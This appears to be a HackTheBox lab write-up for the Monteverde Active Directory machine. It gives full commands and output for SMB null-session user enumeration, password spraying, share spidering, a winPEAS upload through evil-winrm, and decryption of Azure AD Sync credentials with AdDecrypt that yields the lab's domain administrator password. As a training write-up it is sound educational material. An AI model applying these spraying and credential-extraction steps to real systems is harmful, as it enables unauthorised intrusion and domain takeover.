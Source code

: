 ```yaml
---
title: Monteverde - Medium HTB
date: 2023-12-27 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /monteverde
tags: [htb, writeup, medium, active directory, Azure, Azure connect, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


![PP](assets/Monteverde/PP.png)

## **Scanning :**

lets start with an nmap scan to discoverd open ports and services : 

```bash
> nmap -sC -sV -T4 -sS 10.10.10.172 -Pn

53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-26 15:26:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-26T15:26:34
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

Add the domain and the FQDN to your `/etc/hosts` file : 

```bash
echo "10.10.10.172 MEGABANK.LOCAL MONTEVERDE.MEGABANK.LOCAL" >> /etc/hosts
```

## **Enumerate smb:**

We can try to acces at the smb using null session : 

```bash
> crackmapexec smb 10.10.10.172 -u "" -p ""

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\:
```

it work we can acces to the smb service without creds, lets try to enumerate domain users also with CME : 

```bash
> crackmapexec smb 10.10.10.172 -u "" -p "" --users

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.10.10.172    445    MONTEVERDE       [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated domain user(s)
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\AAD_987d7f2f57d2               Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\mhope                          
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\SABatchJobs                    
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-ata                        
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-bexec                      
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-netapp                     
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\dgalanos                       
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\roleary                        
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\smorgan
```

Creat a user list : 

```bash
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata 
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

## **Password spraying :**

If we try password spraying we found valid creds : 

```bash
> crackmapexec smb 10.10.10.172 -u "user.txt" -p "user.txt" --continue-on-succes | grep '[+]'

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Re try to list the smb share : 

```bash
> crackmapexec smb 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs" --shares

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

## **Foothlod:**

use CME to list all accessible files in a json file.

```bash
> crackmapexec smb 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs" -M spider_plus
```

On .json create by CME, we can see that there is an xml file on the machine in the user$ share will see this:

```bash
"azure_uploads": {},
    "users$": {
        "mhope/azure.xml": {
            "atime_epoch": "2020-01-03 14:41:18",
            "ctime_epoch": "2020-01-03 14:39:53",
            "mtime_epoch": "2020-01-03 15:59:24",
            "size": "1.18 KB"
        }
    }
```

Use smbclient to connect on the share : 

```bash
> smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'
```

Download the file on your local machine and open it. We can see that the file contains a password but without user we can try to find the password with our list of users.

```bash
> crackmapexec smb 10.10.10.172 -u user.txt -p password.txt --continue-on-succes | grep '[+]'

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```

## Privileges Escalation **:**

To automate enumeration, we can launch winpeas.exe. Use evil-winrm to upload it on the target:

```bash
#evil-winrm shell
uplaod winpeas.exe

# launch winpeas
.\winpeas.exe
```

There are a lot of interesting things notably Azure softwares.

```bash
╔══════════╣ Installed Applications --Via Program Files/Uninstall registry--
╚ Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\internet explorer
    C:\Program Files\Microsoft Analysis Services
    C:\Program Files\Microsoft Azure Active Directory Connect
    C:\Program Files\Microsoft Azure Active Directory Connect Upgrader
    C:\Program Files\Microsoft Azure AD Connect Health Sync Agent
    C:\Program Files\Microsoft Azure AD Sync
```

After a lot of research I saw that the software "Azure AD Sync" can be operated voicie a blog that explains well the operating process: https://blog.xpnsec.com/azuread-connect-for-redteam/

So I look for a tool that would allow me to do that and I came across this https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/. First go download the binary and then do the following steps.

*PS when you upload the tool don’t forget to upload also the dll file :

```bash
#move to the good directory
> cd 'C:\Program Files\Microsoft Azure AD Sync\bin'

#Execute the tool with the full path and the '-FullSQL' option
> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

Test the credential with CME: 

```bash
> crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!'

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (admin)
```

Yes we are Domain admin ! Get the flag 

```bash
crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!' -x 'more C:\Users\Administrator\Desktop\root.txt'
```

MONTEVERDE  rooted GG ! it was my first experience in a Azure pentesting environment and its fun 😁

### **Credit for root :**

exploit azure connect : https://blog.xpnsec.com/azuread-connect-for-redteam/
